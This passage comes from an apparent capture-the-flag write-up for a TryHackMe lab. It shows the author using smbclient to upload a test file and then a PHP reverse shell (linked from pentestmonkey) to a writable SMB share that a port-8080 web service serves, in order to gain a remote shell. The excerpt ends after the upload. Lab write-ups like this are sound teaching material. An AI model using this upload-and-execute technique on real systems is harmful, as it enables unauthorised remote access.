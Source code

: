 You have probably guessed that this might be the same file as the one we found in `/dev/note.txt` on port 8080. We can test this by uploading a file to the SMB share and see if we can access it from the web service.

I create a test file and uploaded it:

~~~
└─$ smbclient //$IP/SECURED -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put test.txt
putting file test.txt as \test.txt (0.1 kb/s) (average 0.1 kb/s)
smb: \> ls
  .                                   D        0  Sun Mar  6 03:56:08 2022
  ..                                  D        0  Thu Mar 11 07:52:29 2021
  note.txt                            A       45  Thu Mar 11 07:19:52 2021
  test.txt                            A       23  Sun Mar  6 03:56:08 2022

		7743660 blocks of size 1024. 4497328 blocks available
~~~

Let's see if can access it from the web service on port 8080:

~~~
└─$ curl -s "http://$IP:8080/dev/test.txt"
That was the same file
~~~

It is the same file then. So we can upload files on the SMB share and call them from the webpage. That rings a bell…

## Reverse Shell

We can use this discovery to gain a reverse shell. I usually use a php reverse shell, which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just copy the code and change the IP and port inside it. Change the IP to you tryhackme IP and change the port to anything you like (I use port 4444).

After we got our reverse shell ready, we can connect to the SMB service and upload our reverse shell using the `put` command:

~~~
└─$ smbclient //$IP/SECURED -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (3.6 kb/s) (average 3.6 kb/s)
smb: \> ls
  .                                   D        0  Sun Mar  6 04:12:32 2022
  ..                                  D        0  Thu Mar 11 07:52:29 2021
  note.txt                            A       45  Thu Mar 11 07:19:52 2021
  shell.php                           A     2146  Sun Mar  6 04:12:33 2022
  test.txt                            A       23  Sun Mar  6 03:56:08 2022

		7743660 blocks of size 1024. 4497320 blocks available
~~~
